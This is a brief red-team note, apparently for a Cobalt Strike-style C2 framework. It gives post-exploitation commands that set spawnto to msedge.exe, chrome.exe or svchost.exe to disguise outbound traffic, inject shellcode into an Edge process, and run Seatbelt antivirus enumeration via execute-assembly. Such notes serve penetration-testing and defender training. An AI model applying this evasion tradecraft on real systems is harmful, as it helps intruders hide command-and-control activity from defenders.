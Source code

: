 
> Default post-ex commands will be ran by `svchost.exe` after malleable C2 configs

For any outbound connection commands find an msedge or chrome ppid change the spawnto to msedge.exe or chrome.exe


#### HTTP

Find msedge process and inject shell code into it via GUI

```powershell
spawnto x64 "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe"
powerpick command
```


#### SMB W32TIME_ALT (LDAP)

```powershell
spawnto x64 C:\Windows\System32\svchost.exe
```

```powershell
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe AntiVirus
```

